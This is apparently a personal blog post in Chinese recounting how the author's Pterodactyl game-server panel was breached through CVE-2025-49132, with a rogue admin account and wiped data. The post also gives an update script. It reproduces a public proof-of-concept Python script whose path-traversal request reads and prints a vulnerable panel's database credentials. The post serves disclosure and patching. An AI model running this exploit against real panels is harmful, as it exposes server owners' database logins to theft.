


昨天 (2025/10/06) 早上 10 點多的時候在我 Pterodactyl 面板的伺服器上的活動紀錄 (Activity Log) 發現有好幾個不認識的使用者查看我伺服器的包括插件設定檔 (裡面有我 Discord Bot 的 Token 與資料庫連線位置與帳號密碼)，且控制台 (Console) 也有人在嘗試使用 `mysql` 指令試圖連線到我的資料庫，雖然那個容器是 Minecraft 的，沒有 `mysql` 指令，當下我立即去查看別的實例 (Instance) 是否也有類似的情況，發現每個有啟動的實例都有類似的情況，且活動紀錄 (Activity Log) 都是來自特定的兩個 IP：`79.127.182.85` 與 `87.249.133.198`，我立刻開始調查這件事。

<!-- more -->


在每個已啟動的實例 (Instance) 的活動紀錄 (Activity Log) 都可以看到這兩個 IP 的使用者在查看我的伺服器設定檔，且時間點都差不多。
且我還發現多了個叫做 `admin` 的使用者，這個使用者並不是我建立的。且它具有管理員 (Administrator) 權限。



</br>

我立刻把這個 `admin` 使用者降為一般使用者 (User)，接著它好像發現自己被降權了，那個帳號直接刪除掉了。
但一般使用者是沒有權限可以刪除自己的帳號的，這表示這個 `admin` 帳號應該是利用某種漏洞建立並操作的。

緊接著我開始查看 Pterodactyl 的[**官網**](https://pterodactyl.io/)，發現 Pterodactyl 在 2025/06/19 發布了 1.11.11 版本，並且在[**更新日誌**](https://github.com/pterodactyl/panel/releases/tag/v1.11.11) 中提到修補了一個 [**CVE-2025-49132**](https://github.com/advisories/GHSA-24wv-6c99-f843) (RCE) 的漏洞。

> 由於該漏洞能夠執行​​任意程式碼，因此可以無限利用。攻擊者可以利用漏洞存取 Panel 伺服器，從 Panel 配置中讀取憑證（`.env` 或其他方式），從資料庫中提取敏感資訊 (例如用戶詳細資料 [ 用戶名，電子郵件，名字和姓氏，散列密碼，IP地址等 ])，存取面板管理的伺服器的檔案等。

> 這個漏洞影響所有版本的 Pterodactyl 面板，直到 1.11.10 版本。建議所有使用受影響版本的用戶立即更新。

</br>

於是我立刻把我的 Pterodactyl 面板從 1.11.9 更新到 1.11.11，更新過程中沒有什麼太大的問題，更新完成後我重新啟動 Pterodactyl 的服務，但我發現那個 `admin` 使用者又出現了，且它又是管理員 (Administrator) 權限，我立刻拔掉那台主機的網路線，並立刻查看資料庫當前的連線數，並沒有發現任何異常的連接，但是我發現 Pterodactyl 面板的資料庫中的好幾個資料表 (Table) 都被清空了，包含 `activity_logs`、`api_keys`、`backups`、`servers`、`server_transfers`、`server_variables`、`subusers`、`tasks`、`users` 等等，包括我 Minecraft 伺服器插件用到的資料表也被清空了

之後我對主機做病毒掃描，並沒有發現任何惡意程式，且我也沒有在主機上發現任何異常的排程 (Cron Job)，所以我認為這次的事件應該只是單純利用 Pterodactyl 面板的 CVE-2025-49132 漏洞來取得面板的管理權限，並且刪除資料庫中的資料表來破壞我的伺服器。
但我還是不確定有沒有其他的後門或是惡意程式，所以我決定重新安裝整台主機的作業系統，並且重新部署 Pterodactyl 面板與 Minecraft 伺服器。

</br>

就在我恢復資料庫後 (雖然備份是三個月前的)，我發現它還把我 `volumes` 資料夾中的的所有檔案都刪除了，這些是所有實例 (Instance) 的資料夾，也包括 Discord Bot 的檔案，索性某些比較重要的我都有備份，攻擊者也沒有刪除我 `backups` 資料夾中的備份檔案。

</br>

---

</br>

然後我在後續測試中發現我的 WAF 其實可以擋掉這次的攻擊，但我面板是唯一一個沒有經過 WAF 保護的服務，偏偏就打它

這裡有可以模擬這次漏動的 PoC：[資料來源](https://github.com/Zen-kun04/CVE-2025-49132)

```python
# Exploit Title: Pterodactyl Panel 1.11.11 - Remote Code Execution (RCE)
# Date: 22/06/2025
# Exploit Author: Zen-kun04
# Vendor Homepage: https://pterodactyl.io/
# Software Link: https://github.com/pterodactyl/panel
# Version: < 1.11.11
# Tested on: Ubuntu 22.04.5 LTS
# CVE: CVE-2025-49132


import requests
import json
import argparse
import colorama
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

arg_parser = argparse.ArgumentParser(
    description="Check if the target is vulnerable to CVE-2025-49132.")
arg_parser.add_argument("target", help="The target URL")
args = arg_parser.parse_args()

try:
    target = args.target.strip() + '/' if not args.target.strip().endswith('/') else args.target.strip()
    r = requests.get(f"{target}locales/locale.json?locale=../../../pterodactyl&namespace=config/database", allow_redirects=True, timeout=5, verify=False)
    if r.status_code == 200 and "pterodactyl" in r.text.lower():
        try:
            raw_data = r.json()
            data = {
                "success": True,
                "host": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("host", "N/A"),
                "port": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("port", "N/A"),
                "database": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("database", "N/A"),
                "username": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("username", "N/A"),
                "password": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("password", "N/A")
            }
            print(f"{colorama.Fore.LIGHTGREEN_EX}{target} => {data['username']}:{data['password']}@{data['host']}:{data['port']}/{data['database']}{colorama.Fore.RESET}")
        except json.JSONDecodeError:
            print(colorama.Fore.RED + "Not vulnerable" + colorama.Fore.RESET)
        except TypeError:
            print(colorama.Fore.YELLOW + "Vulnerable but no database" + colorama.Fore.RESET)
    else:
        print(colorama.Fore.RED + "Not vulnerable" + colorama.Fore.RESET)
except requests.RequestException as e:
    if "NameResolutionError" in str(e):
        print(colorama.Fore.RED + "Invalid target or unable to resolve domain" + colorama.Fore.RESET)
    else:
        print(f"{colorama.Fore.RED}Request error: {e}{colorama.Fore.RESET}")
```

使用方法：

```bash
python3 -m venv .venv
source .venv/bin/activate
pip install requests colorama
python3 cve-2025-49132.py https://your-pterodactyl-panel-url
```

測試結果會像這樣：



上面那個是已經更新到 1.11.11 版本的面板，測試結果是沒有問題的
下面那個是 1.11.10 版本的面板，返回內容是可以看到面板的資料庫連線參數

</br>

---

</br>

這裡提供簡單的緩解方法與更新腳本：

LUA 規則：

```

更新腳本：

```bash
#!/bin/bash
# Pterodactyl Panel Update Script to 1.11.11

# 1. 切換到 root 用戶
sudo su

# 修正：變數賦值不能有空格
now=$(date +%Y%m%d)

# 2. 進入面板目錄並維護模式
cd /var/www/pterodactyl
php artisan down

# 3. 備份舊版本
cd /var/www
mv pterodactyl pterodactyl_backup_$now

# 4. 從備份的 .env 文件讀取資料庫資訊
ENV_FILE="/var/www/pterodactyl_backup_$now/.env"

if [ -f "$ENV_FILE" ]; then
    echo "從 .env 文件讀取資料庫配置..."
    
    # 讀取資料庫配置
    DB_HOST=$(grep "^DB_HOST=" "$ENV_FILE" | cut -d'=' -f2)
    DB_PORT=$(grep "^DB_PORT=" "$ENV_FILE" | cut -d'=' -f2)
    DB_DATABASE=$(grep "^DB_DATABASE=" "$ENV_FILE" | cut -d'=' -f2)
    DB_USERNAME=$(grep "^DB_USERNAME=" "$ENV_FILE" | cut -d'=' -f2)
    DB_PASSWORD=$(grep "^DB_PASSWORD=" "$ENV_FILE" | cut -d'=' -f2)
    
    echo "資料庫配置："
    echo "Host: $DB_HOST"
    echo "Port: $DB_PORT"
    echo "Database: $DB_DATABASE"
    echo "Username: $DB_USERNAME"
    echo "Password: $(if [ -z "$DB_PASSWORD" ]; then echo '(空)'; else echo '***'; fi)"
else
    echo "錯誤：找不到 .env 文件在 $ENV_FILE"
    exit 1
fi

# 5. 備份資料庫 (重要!)
echo "開始備份資料庫..."
if [ -z "$DB_PASSWORD" ]; then
    # 無密碼的情況
    mysqldump -h "$DB_HOST" -P "$DB_PORT" -u "$DB_USERNAME" "$DB_DATABASE" > /tmp/panel_backup_$now.sql
else
    # 有密碼的情況
    mysqldump -h "$DB_HOST" -P "$DB_PORT" -u "$DB_USERNAME" -p"$DB_PASSWORD" "$DB_DATABASE" > /tmp/panel_backup_$now.sql
fi

if [ $? -eq 0 ]; then
    echo "資料庫備份成功: /tmp/panel_backup_$now.sql"
else
    echo "資料庫備份失敗！是否繼續？(y/N)"
    read -r continue
    if [ "$continue" != "y" ] && [ "$continue" != "Y" ]; then
        exit 1
    fi
fi

# 6. 安裝 PHP 8.3
echo "安裝 PHP 8.3..."
apt update && apt -y install php8.3 php8.3-{common,cli,gd,mysql,mbstring,bcmath,xml,fpm,curl,zip}

# 7. 確認PHP版本並設置預設版本
php -v    # 應該顯示 8.3.x
update-alternatives --set php /usr/bin/php8.3

# 8. 更新 Composer
echo "更新 Composer..."
curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer
composer --version

# 9. 創建新目錄並復原配置
mkdir -p /var/www/pterodactyl
cd /var/www/pterodactyl
cp ../pterodactyl_backup_$now/.env .env

# 10. 下載最新版本
echo "下載 Pterodactyl Panel 最新版本..."
curl -L https://github.com/pterodactyl/panel/releases/latest/download/panel.tar.gz | tar -xzv

# 11. 設置權限
chmod -R 755 storage/* bootstrap/cache

# 12. 修改 composer.json 中的 PHP 版本
echo "更新 composer.json PHP 版本要求..."
sed -i 's/"php": "8\.2\.0"/"php": "8.3.0"/g' composer.json

# 13. 安裝依賴
echo "安裝 Composer 依賴..."
composer install --no-dev --optimize-autoloader

# 14. 清除快取
echo "清除應用程式快取..."
php artisan view:clear
php artisan config:clear

# 15. 執行遷移
echo "執行資料庫遷移..."
php artisan migrate --seed --force

# 16. 設置權限
chown -R www-data:www-data /var/www/pterodactyl/*

# 17. 重啟服務
echo "重啟服務..."
systemctl restart php8.3-fpm
systemctl restart nginx  # 或 apache2

# 18. 重啟佇列和啟用面板
php artisan queue:restart
php artisan up

echo "=========================================="
echo "更新完成！"
echo "資料庫備份位置: /tmp/panel_backup_$now.sql"
echo "舊版本備份位置: /var/www/pterodactyl_backup_$now"
echo "請檢查網站是否正常運作"
echo "=========================================="
```